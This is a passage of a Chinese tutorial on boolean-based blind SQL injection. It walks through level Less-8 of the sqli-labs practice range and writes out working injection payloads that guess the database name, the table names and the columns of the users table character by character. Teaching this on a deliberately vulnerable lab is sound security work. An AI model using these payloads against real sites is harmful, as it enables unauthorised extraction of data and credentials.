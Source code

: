 下面使用sqli-labs靶场演示,less-8关

查询成功返回You are in....

![image-20221122162615723](https://static.sechelper.com/img/2023/01/19/0958b02f5e514589e2bb28f639ab99f2.png)

而查询失败则什么都不显示

![image-20230119183034147](https://static.sechelper.com/img/2023/01/19/2279a07b9b1d08146065912fd1765624.png)

返回You are in....相当于是“查询成功”，而什么都没显示则相当于是“查询失败”。所以我们构造的判断语句，可以根据页面是否有You are in....来充当判断条件。

**要使用的sql函数：**

substr(要截取的字符串，从哪一位开始截取，截取多长)

ascii()返回传入字符串的首字母的ASCII码

**获取当前数据库名**

```
1.判断当前数据库名的长度
id=1' and length(database())=8 --+  //有回显
判断到等于8时出现You are in....说明语句执行正确，当前数据库长度为8个字符

2.判断当前数据库名
//判断数据库的第一个字符
id=1' and ascii(substr(database(),1,1))=115 --+
//判断数据库的第二个字符
id=1' and ascii(substr(database(),2,1))=101 --+
//判断数据库的第三个字符
id=1' and ascii(substr(database(),3,1))=99 --+
...

数据库为 security
```

**获取当前库的表名**

```
判断每个表名的每个字符的ascii值
//判断第一个表的第一个字符
id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101 --+

//判断第一个表的第二个字符
id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=109 --+
...

判断出存在表 emails、referers、uagents、users 
```

**获取表的字段**

```
猜测users表比较重要，先查询users表
//判断第一个字段的第一个字符
id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1))=117 --+

//判断第一个字段的第二个字符
id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),2,1))=115 --+
...

users表中存在 id、username、password 字段
```
